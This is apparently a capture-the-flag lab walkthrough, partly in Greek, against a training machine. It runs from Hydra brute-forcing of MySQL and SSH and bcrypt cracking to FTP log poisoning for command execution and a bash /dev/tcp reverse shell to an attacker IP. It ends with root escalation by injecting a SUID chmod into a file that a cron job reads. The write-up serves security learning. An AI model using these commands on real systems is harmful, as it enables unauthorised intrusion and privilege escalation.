# Brute

Target IP: 10.112.179.20

Firstly, I visited the website.

Inspected the page Source for possible forgotten credentials, with no success.


Tried SQL injection


No success.

Searched for files and directories in the domain for possible vulnerabilities: 
```gobuster dir -u http://10.112.179.20/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 40```



After visiting each available page, I had no success of finding an entry point.


Nmap: Searching for open ports
```nmap -sS -sV -p- 10.112.179.20```




1. ftp port 21 open: Trying for anonymous log in:
   
 
 No success!

 Trying to bruteforce mysql with default username : root using Hydra
 ```hydra -l root -P /usr/share/wordlists/rockyou.txt 10.112.179.20 mysql```
 
 

 ## Succesfully acquiring password!!!!

 Σύνδεση με sql:
 ```mysql -h 10.112.179.20 -u root -p``` 

 ```show databases```
 ```use website```
```show tables```
```SELECT * FROM users``` 

 

Crack the hash with John The Ripper:
``` john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash.txt```




We go back to the site and login with the credentials: Adrian/tigger



It seems to be the log file from the ftp connection!!

## Log Poisoning:
--- 
[Log Poisoning](../../undefined)


FTP Login: 


URL : http://10.112.165.130/welcome.php?cmd=id




Log poisoning succesful!!!


# Acquire Reverse Shell
1. Open Listener to Attack Box
   ```nc -lvnp 9001```

2. Replace the cmd=id in the url with the RRL- encoded bash payload
	1. Initial command:
	   ```bash -c 'bash -i >& /dev/tcp/10.112.80.11/9001 0>&1'```
	2. URL-encoded dommand:
	```http://10.112.165.130/welcome.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.112.80.11%2F9001%200%3E%261%27```

TIP: USE https://www.revshells.com/ for encoding

3. Upgrade the shell
   
   1.1. Γέννηση Pseudo-Terminal (PTY)
    	```python3 -c 'import pty;pty.spawn("/bin/bash")'```
   		Τι κάνει: Χρησιμοποιεί το ενσωματωμένο module pty της Python για να δημιουργήσει μια ψευδο-συσκευή τερματικού (/dev/pts/X) στον στόχο και εκκινεί μέσα σε αυτήν ένα νέο /bin/bash process.

Αποτέλεσμα: Το σύστημα του στόχου "ξεγελιέται" και αναγνωρίζει ότι η διεργασία τρέχει πλέον μέσα σε ένα κανονικό terminal interface, επιτρέποντας την εκτέλεση εντολών όπως το sudo.
	1.2 Backgrounding του Listener 
	  		```Ctrl + Z```

			
	1.3  Ρύθμιση Local Raw Mode & Επαναφορά
```stty raw -echo; fg```  
- stty raw: Θέτει το τοπικό σου πληκτρολόγιο/τερματικό σε κατάσταση "raw mode". Αντί το τοπικό OS να επεξεργάζεται τα keystrokes (όπως τα πατήματα των πλήκτρων Ctrl + C, Tab, $\uparrow$, $\downarrow$), τα στέλνει αυτούσια (as-is byte streams) μέσω του socket στον απομακρυσμένο server.
- -echo: Απενεργοποιεί το τοπικό echo των πλήκτρων, ώστε να μην εμφανίζονται διπλοί χαρακτήρες στην οθόνη (ένας από το τοπικό terminal και ένας από το remote echo).
- fg: (Foreground) Επαναφέρει το backgrounded Netcat session στο προσκήνιο.(Σημείωση: Αφού πατηθεί το Enter, χρειάζεται άλλο ένα Enter για να επανέλθει καθαρά το remote bash prompt).


--- 
We explore the filessystem and we find a home directory named <u>adrian</u>


	
There is a hidden file called: reminder
```cat .reminder``` 


``` nano append_exclam.rule```
!
```nano pass.txt```
ettubrure
```hashcat --stdout pass.txt -r /usr/share/hashcat/rules/best64.rule -r append_exclam.rule > passlist.txt``` 


```hydra -l adrian -P passlist.txt 10.112.165.130 ssh``` 

Success!! We have found adrian's  ssh password

```ssh adrian@10.112.165.130```

Found file :punch_in
Inject : 
```$(chmod u+s /usr/bin/bash)```

After a minute: 
/usr/bin/bash -p

Go to /root directory and open root.txt !!!

Ανάλυση:
Ανάλυση Μηχανισμού Privilege Escalation (Command Injection via Insecure Script Evaluation)

Το σενάριο αυτό αποτελεί κλασικό παράδειγμα κλιμάκωσης προνομίων (Privilege Escalation) μέσω ανασφαλούς επεξεργασίας δεδομένων εισόδου (Unsanitized Input) από προνομιούχο διεργασία (root cronjob).

1. Η Αρχιτεκτονική του Ευπαθούς Σεναρίου

Στο σύστημα συνυπάρχουν δύο διεργασίες:

Ο Χρήστης adrian: Έχει δικαίωμα εγγραφής στο αρχείο καταγραφής punch_in (ή ένα script που γράφει σε αυτό).

Ο Διαχειριστής root (UID=0): Εκτελεί περιοδικά (κάθε 1 λεπτό μέσω Cron) ένα script ελέγχου, το οποίο διαβάζει γραμμή-γραμμή το αρχείο punch_in.

2. Γιατί το Script είναι Ευπαθές (Command Injection / Subshell Execution)

Όταν ένα bash script διαβάζει γραμμές ενός αρχείου και τις περνάει σε εντολές όπως echo ή eval χωρίς αυστηρό quoting (π.χ. eval "echo $line" ή echo $(cat punch_in)), το shell αναλύει το κείμενο αναζητώντας ειδικούς χαρακτήρες.

Ο Μηχανισμός $() (Command Substitution):
Στο Bash, οτιδήποτε περικλείεται σε $(...) ή backticks (`...`) δεν εκλαμβάνεται ως απλό κείμενο, αλλά εκτελείται άμεσα ως εντολή συστήματος πριν ολοκληρωθεί η κύρια εντολή.

Το Σφάλμα Εμπιστοσύνης:
Το script του root εμπιστεύεται ότι το αρχείο punch_in περιέχει μόνο απλό κείμενο (π.χ. timestamps). Όταν όμως το script διαβάζει τη γραμμή $(...), το Bash του root εκτελεί τον εσωτερικό κώδικα με δικαιώματα UID=0 (root).

3. Επιβεβαίωση με Pspy (Process Snooping)

Το εργαλείο pspy παρακολουθεί τα Linux events στο /proc χωρίς να απαιτεί root δικαιώματα.

Εμφανίζει εντολές που εκτελούνται από άλλους χρήστες σε πραγματικό χρόνο.

Μέσω αυτού επιβεβαιώνεται ότι κάθε λεπτό τρέχει μια εντολή με UID=0 που καλεί το εν λόγω script πάνω στο αρχείο punch_in.

4. Ανάλυση του Payload & SUID Binary Mechanism

Η εντολή που εισάγεται στο αρχείο:

Bash
$(chmod u+s /usr/bin/bash)
Τι κάνει: Προσθέτει το SUID (Set User ID) bit στο εκτελέσιμο αρχείο /usr/bin/bash.

Γιατί εκτελείται ως root: Επειδή το script που διαβάζει το αρχείο τρέχει υπό το UID=0 του cronjob.

Αποτέλεσμα στα δικαιώματα: Το binary /usr/bin/bash μετατρέπεται από -rwxr-xr-x σε -rwsr-xr-x με ιδιοκτήτη τον root.

5. Το Τελικό Βήμα: /usr/bin/bash -p

Αφού περάσει το 1 λεπτό και εκτελεστεί το cronjob:

Η σημαία -p (Privileged Mode):
Από προεπιλογή, όταν το Bash εκτελείται από έναν απλό χρήστη (adrian) αλλά διαθέτει SUID bit άλλου χρήστη (root), απορρίπτει αυτόματα τα αυξημένα δικαιώματα (drops privileges) για λόγους ασφαλείας και γυρίζει στο Real UID.
Περνώντας την παράμετρο -p, εξαναγκάζουμε το Bash να διατηρήσει το Effective UID (EUID=0 / root).

Αποτέλεσμα: Ανοίγει άμεσα ένα interactive shell ως root#, δίνοντας πλήρη πρόσβαση σε όλο το σύστημα και στο flag /root/root.txt.